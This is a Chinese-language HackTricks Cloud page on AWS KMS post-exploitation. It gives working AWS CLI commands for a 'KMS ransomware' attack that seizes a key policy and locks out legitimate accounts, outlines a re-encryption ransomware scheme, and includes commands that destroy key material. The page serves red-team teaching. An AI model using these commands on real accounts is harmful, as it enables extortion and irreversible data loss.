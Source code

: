 # AWS - KMS Post Exploitation

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## KMS

更多信息请查看:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 加密/解密信息

* 使用 **对称** 密钥
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* 使用一个**asymmetric**密钥：
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
如果在尝试执行 kms decrypt 时收到错误 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:'，请尝试使用 **`--ciphertext-blob file://`** 而不是 **`fileb://`**。

使用 **`file://`** 允许你在使用 CLI 时方便地使用你喜欢的编码编写的文件。
在 1.6.3 及更高版本的 CLI 中，你可以通过另一种方式将文件内容传递给 CLI，即 **`fileb://`**。它的工作方式类似于 **`file://`**，但不是将文件内容作为文本读取，而是作为二进制读取。

在大多数情况下，**`file://`** 可以满足你将文件内容作为输入传递的需求。然而，在某些情况下，必须使用 **`fileb://`** 将文件内容作为二进制而不是文本传递。
阅读更多 AWS 相关信息：[AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

具有 KMS 特权访问权限的攻击者可以修改密钥的 KMS 策略，并**授予其账户访问权限**，移除授予合法账户的访问权限。

然后，合法账户用户将无法访问任何使用这些密钥加密的服务的任何信息，从而在账户上创建一个简单但有效的勒索软件。

{% hint style="warning" %}
请注意，**AWS 管理的密钥不受此攻击影响**，仅**客户管理的密钥**受影响。

还要注意需要使用参数 **`--bypass-policy-lockout-safety-check`**（由于 Web 控制台中缺少此选项，此攻击仅可能通过 CLI 实现）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
注意，如果您更改该策略并仅授予外部账户访问权限，然后从该外部账户尝试设置新策略以**将访问权限还给原始账户，您将无法**。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 通用 KMS 勒索软件

#### 全局 KMS 勒索软件

还有另一种执行全局 KMS 勒索软件的方法，涉及以下步骤：

* 创建一个由攻击者导入**密钥材料**的新密钥
* 使用新密钥**重新加密**用先前版本加密的旧数据
* **删除 KMS 密钥**
* 现在只有拥有原始密钥材料的攻击者才能解密加密数据

### 销毁密钥
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
请注意，AWS 现在**防止从跨账户执行之前的操作：**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享 hacking 技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}
